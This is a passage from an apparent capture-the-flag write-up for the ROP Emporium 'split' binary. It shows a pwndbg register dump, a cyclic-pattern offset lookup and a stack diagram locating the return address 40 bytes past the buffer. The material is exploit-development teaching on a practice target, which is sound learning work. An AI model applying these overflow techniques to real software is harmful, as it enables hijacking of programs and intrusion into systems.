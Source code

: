 * Let's provide this as input.

```
──────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────────
*RAX  0xb
 RBX  0x0
*RCX  0x7ffff7ea2a37 (write+23) ◂— cmp rax, -0x1000 /* 'H=' */
*RDX  0x1
*RDI  0x7ffff7fa9a70 (_IO_stdfile_1_lock) ◂— 0x0
*RSI  0x1
*R8   0xa
*R9   0x7ffff7fc9040 (_dl_fini) ◂— endbr64
*R10  0x7ffff7d945e8 ◂— 0xf001200001a64
*R11  0x246
*R12  0x7fffffffdfd8 —▸ 0x7fffffffe21b ◂— '/home/kunal/ropEmporium/split/split'
*R13  0x400697 (main) ◂— push rbp
 R14  0x0
*R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0x0
*RBP  0x6161616161616165 ('eaaaaaaa')
*RSP  0x7fffffffdeb8 ◂— 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaa'
*RIP  0x400741 (pwnme+89) ◂— ret
```

* The `rbp` register points to `0x6161616161616165` which is the little endian `eaaaaaaa` in ASCII.
* Let's find the offset of this value in our cyclic pattern.

```
pwndbg> cyclic -l 0x6161616161616165
Finding cyclic pattern of 8 bytes: b'eaaaaaaa' (hex: 0x6561616161616161)
Found at offset 32
```

* So the offset is 32 bytes.
* Let's see how this looks on the stack.

### Stack

```
<======: Value is stored at that location
<------: Points to the address

+---------------------------+ 
|  61 61 61 61 61 61 61 61  | <====== buffer (32 bytes) <------ rsp
|  62 61 61 61 61 61 61 61  | 
|  63 61 61 61 61 61 61 61  |
|  64 61 61 61 61 61 61 61  |
+---------------------------+
|  65 61 61 61 61 61 61 61  | <====== stored rbp <------ rbp
+---------------------------+
|  66 61 61 61 61 61 61 61  | <====== return address <------ rip
+---------------------------+
```

* We can see that if we increment the `rbp` by 8, it will point to the saved return address.
* Therefore the distance between the buffer and the saved return address is `offset+8` which is equal to 40.

